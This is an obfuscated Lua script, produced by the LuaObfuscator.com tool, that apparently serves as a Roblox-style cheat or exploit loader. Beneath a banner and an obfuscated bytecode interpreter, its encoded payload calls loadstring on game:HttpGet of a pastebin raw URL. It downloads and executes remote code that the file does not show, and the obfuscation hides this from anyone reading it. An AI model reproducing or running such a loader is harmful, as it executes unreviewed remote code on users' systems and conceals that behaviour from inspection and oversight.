 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then v19=v0(v3(v30,1,1));return "";else local v84=v2(v0(v30,16));if v19 then local v110=v5(v84,v19);v19=nil;return v110;else return v84;end end end);local function v20(v31,v32,v33) if v33 then local v85=0 -0 ;local v86;while true do if (v85==(0 -0)) then v86=(v31/((879 -(282 + 595))^(v32-(1638 -((2480 -(892 + 65)) + 114)))))%((2 + 0)^(((v33-(1 -0)) -(v32-(1 -0))) + ((4 -2) -1))) ;return v86-(v86%(620 -(555 + 64))) ;end end else local v87=931 -(857 + 74) ;local v88;while true do if (v87==(1270 -((417 -191) + 1044))) then v88=(8 -6)^(v32-(569 -(367 + 201))) ;return (((v31%(v88 + v88))>=v88) and (928 -(214 + (1308 -595)))) or (0 + 0) ;end end end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35,v36=v1(v16,v18,v18 + 2 );v18=v18 + (352 -(87 + 263)) ;return (v36 * (436 -(67 + 113))) + v35 ;end local function v23() local v37,v38,v39,v40=v1(v16,v18,v18 + (7 -4) + 0 );v18=v18 + (9 -5) ;return (v40 * (12338840 + 4438376)) + (v39 * (260471 -194935)) + (v38 * (1208 -(802 + 150))) + v37 ;end local function v24() local v41=v23();local v42=v23();local v43=1 -(438 -(145 + 293)) ;local v44=(v20(v42,1 + (430 -(44 + 386)) ,1017 -(915 + 82) ) * (2^32)) + v41 ;local v45=v20(v42,59 -38 ,19 + 12 );local v46=((v20(v42,41 -9 )==(1188 -(1069 + 118))) and  -(2 -(1487 -(998 + 488)))) or (1 -0) ;if (v45==(0 + 0)) then if (v44==0) then return v46 * (0 -0) ;else local v111=0 + 0 ;while true do if (v111==((252 + 539) -(302 + 66 + 423))) then v45=3 -2 ;v43=18 -(10 + (780 -(201 + 571))) ;break;end end end elseif (v45==(7874 -5827)) then return ((v44==0) and (v46 * ((443 -(416 + 26))/(0 -0)))) or (v46 * NaN) ;end return v8(v46,v45-(440 + 583) ) * (v43 + (v44/(2^(91 -39)))) ;end local function v25(v47) local v48=1138 -(116 + 403 + 619) ;local v49;local v50;while true do if (v48==(859 -(814 + 45))) then v49=nil;if  not v47 then local v118=0 -0 ;while true do if (v118==(0 + 0)) then v47=v23();if (v47==(0 -0)) then return "";end break;end end end v48=886 -(261 + 624) ;end if ((1 -0)==v48) then v49=v3(v16,v18,(v18 + v47) -(1 + 0) );v18=v18 + v47 ;v48=1425 -(630 + 793) ;end if (v48==2) then v50={};for v112=3 -2 , #v49 do v50[v112]=v2(v1(v3(v49,v112,v112)));end v48=10 -7 ;end if ((10 -(1754 -(760 + 987)))==v48) then return v6(v50);end end end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v51=(function() return function(v89,v90,v91,v92,v93,v94,v95,v96) local v89=(function() return 0;end)();local v90=(function() return;end)();local v91=(function() return;end)();while true do if (v89== #"!") then if (v90== #"|") then v91=(function() return v92()~=(574 -(507 + 67)) ;end)();elseif (v90==2) then v91=(function() return v93();end)();elseif (v90== #"-19") then v91=(function() return v94();end)();end v95[v96]=(function() return v91;end)();break;end if (0==v89) then local v120=(function() return 1749 -(1013 + 736) ;end)();local v121=(function() return;end)();while true do if (v120~=(0 + 0)) then else v121=(function() return 0;end)();while true do if (v121==(0 -0)) then v90=(function() return v92();end)();v91=(function() return nil;end)();v121=(function() return 1;end)();end if (1==v121) then v89=(function() return  #":";end)();break;end end break;end end end end return v89,v90,v91,v92,v93,v94,v95,v96;end;end)();local v52=(function() return function(v97,v98,v99) local v100=(function() return 0 -0 ;end)();local v101=(function() return;end)();while true do if (v100~=0) then else v101=(function() return 0;end)();while true do if ((867 -(550 + 317))==v101) then local v124=(function() return 0 -0 ;end)();while true do if ((0 -0)==v124) then local v155=(function() return 0;end)();while true do if (v155~=(0 -0)) then else v97[v98-#" " ]=(function() return v99();end)();return v97,v98,v99;end end end end end end break;end end end;end)();local v53=(function() return {};end)();local v54=(function() return {};end)();local v55=(function() return {};end)();local v56=(function() return {v53,v54,nil,v55};end)();local v57=(function() return v23();end)();local v58=(function() return {};end)();for v66= #"|",v57 do FlatIdent_6FA1,Type,Cons,v21,v24,v25,v58,v66=(function() return v51(FlatIdent_6FA1,Type,Cons,v21,v24,v25,v58,v66);end)();end v56[ #"91("]=(function() return v21();end)();for v67= #"<",v23() do local v68=(function() return v21();end)();if (v20(v68, #" ", #"]")~=(285 -(134 + 151))) then else local v105=(function() return 0;end)();local v106=(function() return;end)();local v107=(function() return;end)();local v108=(function() return;end)();local v109=(function() return;end)();while true do if (v105~=1) then else local v122=(function() return 0;end)();while true do if (v122==1) then v105=(function() return 1667 -(970 + 695) ;end)();break;end if (v122==(0 -0)) then v108=(function() return nil;end)();v109=(function() return nil;end)();v122=(function() return 1991 -(582 + 1408) ;end)();end end end if (v105==0) then local v123=(function() return 0 -0 ;end)();while true do if ((1 -0)==v123) then v105=(function() return 3 -2 ;end)();break;end if (v123~=0) then else v106=(function() return 1824 -(1195 + 629) ;end)();v107=(function() return nil;end)();v123=(function() return 1;end)();end end end if (v105==(2 -0)) then while true do if ( #"}"==v106) then local v145=(function() return 0;end)();local v146=(function() return;end)();while true do if (v145~=(241 -(187 + 54))) then else v146=(function() return 0;end)();while true do if ((780 -(162 + 618))==v146) then v109=(function() return {v22(),v22(),nil,nil};end)();if (v107==(0 + 0)) then local v187=(function() return 0;end)();while true do if (v187~=0) then else v109[ #"-19"]=(function() return v22();end)();v109[ #"?id="]=(function() return v22();end)();break;end end elseif (v107== #"!") then v109[ #"nil"]=(function() return v23();end)();elseif (v107==(3 -1)) then v109[ #"xnx"]=(function() return v23() -((2 -0)^16) ;end)();elseif (v107== #"nil") then local v194=(function() return 0;end)();local v195=(function() return;end)();while true do if (v194~=0) then else v195=(function() return 0 + 0 ;end)();while true do if (v195~=(1636 -(1373 + 263))) then else v109[ #"19("]=(function() return v23() -((1002 -(451 + 549))^(6 + 10)) ;end)();v109[ #"asd1"]=(function() return v22();end)();break;end end break;end end end v146=(function() return 1 -0 ;end)();end if (v146==(1 -0)) then v106=(function() return 2;end)();break;end end break;end end end if (v106==(1386 -(746 + 638))) then local v147=(function() return 0;end)();local v148=(function() return;end)();while true do if (v147==(0 + 0)) then v148=(function() return 0;end)();while true do if (v148==(0 -0)) then if (v20(v108, #"{", #"{")== #",") then v109[343 -(218 + 123) ]=(function() return v58[v109[2]];end)();end if (v20(v108,2,1583 -(1535 + 46) )== #":") then v109[ #"-19"]=(function() return v58[v109[ #"xnx"]];end)();end v148=(function() return 1 + 0 ;end)();end if ((1 + 0)==v148) then v106=(function() return  #"asd";end)();break;end end break;end end end if (v106~=(560 -(306 + 254))) then else local v149=(function() return 0 + 0 ;end)();local v150=(function() return;end)();while true do if (v149~=(0 -0)) then else v150=(function() return 1467 -(899 + 568) ;end)();while true do if (v150==1) then v106=(function() return  #"[";end)();break;end if ((0 + 0)==v150) then v107=(function() return v20(v68,4 -2 , #"xxx");end)();v108=(function() return v20(v68, #"http",6);end)();v150=(function() return 604 -(268 + 335) ;end)();end end break;end end end if (v106~= #"asd") then else if (v20(v108, #"19(", #"asd")== #"~") then v109[ #"0836"]=(function() return v58[v109[ #"http"]];end)();end v53[v67]=(function() return v109;end)();break;end end break;end end end end for v69= #"}",v23() do v54,v69,v28=(function() return v52(v54,v69,v28);end)();end return v56;end local function v29(v60,v61,v62) local v63=v60[291 -(60 + 230) ];local v64=v60[574 -(426 + 146) ];local v65=v60[(1008 -(176 + 91)) -((1411 -869) + 196) ];return function(...) local v70=v63;local v71=v64;local v72=v65;local v73=v27;local v74=(873 -(826 + 46)) + 0 ;local v75= -(1457 -((1229 -(245 + 702)) + 1174));local v76={};local v77={...};local v78=v12("#",...) -(1 + 0) ;local v79={};local v80={};for v102=0 -0 ,v78 do if (v102>=v72) then v76[v102-v72 ]=v77[v102 + 1 + 0 ];else v80[v102]=v77[v102 + (1025 -(706 + 318)) ];end end local v81=(v78-v72) + (1252 -((2278 -1557) + 171 + 359)) ;local v82;local v83;while true do v82=v70[v74];v83=v82[1272 -(945 + (480 -154)) ];if (v83<=(1124 -((1210 -(975 + 117)) + 1003))) then if ((983<1808) and (v83<=(2 -1))) then if (v83==(0 + 0)) then local v125=700 -(271 + 429) ;local v126;local v127;local v128;local v129;while true do if ((v125==(4 -3)) or (2150<=1197)) then v75=(v128 + v126) -(1 + (1898 -(260 + 1638))) ;v129=1500 -(1408 + 92) ;v125=1088 -(461 + 625) ;end if (v125==((3165 -(157 + 1718)) -(806 + 187 + 295))) then for v180=v126,v75 do v129=v129 + 1 + 0 ;v80[v180]=v127[v129];end break;end if ((3769>=1173) and (v125==(0 + 0))) then v126=v82[1173 -(418 + 753) ];v127,v128=v73(v80[v126](v13(v80,v126 + 1 + 0 ,v82[1 + 2 ])));v125=2 -(3 -2) ;end end else v80[v82[5 -3 ]]=v62[v82[1 + (6 -4) ]];end elseif (v83>((1 -0) + 1)) then local v132=529 -(406 + (420 -297)) ;local v133;local v134;local v135;local v136;local v137;while true do if (v132==(1773 -(1749 + 20))) then v80[v137]=v136[v82[1 + 3 ]];v74=v74 + 1 + 0 ;v82=v70[v74];v80[v82[1331 -((2002 -(902 + 303)) + 532) ]]=v82[3 + (0 -0) ];v132=(2345 -(697 + 321)) -(1249 + (198 -125)) ;end if ((1485==1485) and (v132==((2 -1) + 1))) then v74=v74 + 1 + 0 ;v82=v70[v74];v80[v82[1204 -((2063 -(1121 + 569)) + 829) ]]=v62[v82[734 -(476 + 255) ]];v74=v74 + ((1360 -(22 + 192)) -(466 + 679)) ;v132=6 -3 ;end if (v132==(0 -0)) then v133=nil;v134,v135=nil;v136=nil;v137=nil;v132=1901 -(106 + (3800 -2006)) ;end if ((v132==(3 + 6)) or (3315<=2782)) then do return;end break;end if (v132==3) then v82=v70[v74];v137=v82[3 -1 ];v136=v80[v82[(2 -1) + 2 ]];v80[v137 + 1 ]=v136;v132=11 -7 ;end if (v132==(21 -13)) then v82=v70[v74];v80[v82[116 -(4 + 110) ]]();v74=v74 + (337 -(144 + 192)) ;v82=v70[v74];v132=225 -(42 + (1637 -(1404 + 59))) ;end if (v132==(590 -((155 -98) + 527))) then v75=(v135 + v137) -(1428 -(41 + 1386)) ;v133=0 + 0 + 0 ;for v183=v137,v75 do v133=v133 + (104 -((31 -14) + 86)) ;v80[v183]=v134[v133];end v74=v74 + 1 + 0 ;v132=1511 -((487 -124) + 1141) ;end if ((v132==(1 -(765 -(468 + 297)))) or (876>=2964)) then v80[v82[5 -3 ]]={};v74=v74 + (167 -(122 + (117 -73))) ;v82=v70[v74];v80[v82[2 + 0 ]]=v62[v82[(1232 -(322 + 905)) -2 ]];v132=6 -4 ;end if (v132==(6 + 1)) then v82=v70[v74];v137=v82[1 + 1 ];v80[v137]=v80[v137](v13(v80,v137 + (1 -0) ,v75));v74=v74 + ((628 -(334 + 228)) -(30 + 35)) ;v132=30 -22 ;end if ((v132==(4 + 1)) or (2232>2497)) then v74=v74 + (1258 -(1043 + 214)) ;v82=v70[v74];v137=v82[2 + (0 -0) ];v134,v135=v73(v80[v137](v13(v80,v137 + ((1985 -1128) -(564 + 292)) ,v82[11 -8 ])));v132=1218 -(323 + 889) ;end end else do return;end end elseif ((v83<=(15 -10)) or (2110<=332)) then if (v83>((18 -8) -6)) then local v138=v82[582 -(361 + 63 + 156) ];local v139=v80[v82[323 -(53 + 267) ]];v80[v138 + 1 + 0 ]=v139;v80[v138]=v139[v82[417 -(15 + 398) ]];else v80[v82[984 -(18 + 964) ]]();end elseif (v83<=(1131 -(936 + 189))) then v80[v82[7 -(616 -(602 + 9)) ]]=v82[2 + 1 ];elseif (v83>(5 + 2)) then local v152=v82[852 -(20 + 830) ];v80[v152]=v80[v152](v13(v80,v152 + 1 + (236 -(141 + 95)) ,v75));else v80[v82[128 -(116 + 10) ]]={};end v74=v74 + (1139 -((1971 -(449 + 740)) + 356)) ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403213Q00682Q7470733A2Q2F706173746562696E2E636F6D2F7261772F72742Q456668566400094Q00037Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
